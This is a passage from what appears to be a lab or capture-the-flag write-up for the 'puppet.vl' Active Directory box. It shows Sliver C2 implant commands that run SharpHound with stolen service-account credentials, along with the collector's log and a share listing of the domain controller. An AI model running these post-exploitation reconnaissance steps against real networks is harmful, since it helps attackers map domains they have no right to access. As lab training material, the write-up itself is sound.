 We got credential of svc_puppet_win_t1 which seems like an agent of puppet in order to use manage this servers. lets use sharp-hound in order to get domain ACL. The build-in sharp-hound-4 is compatible with BloodHound version 5.0.0. If you are using legacy version use you can use Sharphound.

```bash
#For Bloodhound Legacy
sliver (puppet-mtls) > execute-assembly /home/sz/SharpCollection/NetFramework_4.7_any/SharpHound.exe -c all,gpolocalgroup

#For version 5 and above
sliver (puppet-mtls) > sharp-hound-4 -s -t 1000 -- -c all,gpolocalgroup

[*] sharp-hound-4 output:
2025-05-21T23:55:28.7213567-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-05-21T23:55:29.2373339-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2025-05-21T23:55:29.2690719-07:00|INFORMATION|Initializing SharpHound at 11:55 PM on 5/21/2025
2025-05-21T23:55:29.6139591-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for puppet.vl : DC01.puppet.vl
2025-05-21T23:55:29.7705019-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices
2025-05-21T23:55:30.2090083-07:00|INFORMATION|Beginning LDAP search for puppet.vl
2025-05-21T23:55:30.2090083-07:00|INFORMATION|Testing ldap connection to puppet.vl
2025-05-21T23:55:30.3030880-07:00|INFORMATION|Beginning LDAP search for puppet.vl Configuration NC
2025-05-21T23:56:00.9800833-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 39 MB RAM
2025-05-21T23:56:17.5189016-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-05-21T23:56:17.5345091-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-05-21T23:56:19.3947148-07:00|ERROR|[CommonLib DCRegProc]Error getting data from registry for DC01.PUPPET.VL: SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel:CertificateMappingMethods
System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.OpenSubKey(String name, Boolean writable)
   at SharpHoundCommonLib.SHRegistryKey.GetValue(String subkey, String name)
   at SharpHoundCommonLib.Helpers.GetRegistryKeyData(String target, String subkey, String subvalue, ILogger log)
The Zone of the assembly that failed was:
```

It seems like our use is part of Admins_T1 group. There is also another use LIN_T1 which most likly a agent for linux machine.
![](https://photos.squarezero.dev/file/abir-images/puppet/2.png)

Next let check the shares. We have access to it share as svc_puppet_win_t1.  
```
sliver (puppet-mtls) > sa-netshares DC01

[*] Successfully executed sa-netshares (coff-loader)
[*] Got output:
Share: 
---------------------DC01----------------------------------
ADMIN$
C$
IPC$
it
NETLOGON
SYSVOL
```
